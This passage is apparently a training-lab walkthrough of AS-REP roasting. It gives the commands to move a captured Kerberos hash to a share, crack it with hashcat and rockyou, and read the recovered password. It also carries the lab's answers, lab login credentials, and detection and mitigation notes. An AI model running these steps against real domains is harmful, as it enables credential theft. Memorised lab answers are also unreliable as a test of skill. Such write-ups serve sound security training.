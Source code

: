 On the target (Windows):

```powershell
copy C:\Users\bob\Downloads\asrep.txt \\10.129.204.151\Share\asrep.txt
```

***

### Step 4: Crack the Hash Using Hashcat

1. Make sure you have a wordlist available:

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
ls /usr/share/wordlists/rockyou.txt
```

2. Run Hashcat to crack the AS-REP hash:

```bash
sudo hashcat -m 18200 -a 0 asrep.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
```

3. Check the results:

```bash
sudo cat asrepcrack.txt
```

**Sample output:**

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FyCn1klu6hwFstvWgcoRH%2FScreenshot%202025-09-12%20at%201.04.57%E2%80%AFPM.png?alt=media&#x26;token=9f312223-dc49-4772-816c-f9f8815f6d58" alt=""><figcaption></figcaption></figure>

```
$krb5asrep$anni@eagle.local:...:shadow
```

Answer :  shadow

***

### Security Notes & Mitigation

* Regularly review accounts with **"Do not require Kerberos preauthentication"** enabled.
* Apply strong password policies (20+ characters) for these accounts.
* Deploy **honeypot users** to detect malicious hash extraction attempts.
* Monitor **Event ID 4768** in the Security log to track TGT requests and correlate suspicious activity.



**Q2** After performing the AS-REProasting attack, connect to DC1 (172.16.18.3) as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs in Event Viewer. What is the TargetSid of the svc-iam user?

* Filter by **Event ID 4768** (Kerberos TGT request)
* Look for `TargetUserName = svc-iam`
* Get the **TargetSid** from the XML details

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FXr6XbUCl3zKPWjAyiu6x%2FScreenshot%202025-09-12%20at%201.56.40%E2%80%AFPM.png?alt=media&#x26;token=e5e7be94-480e-4f6f-8c52-0b229a2a8d1b" alt=""><figcaption></figcaption></figure>
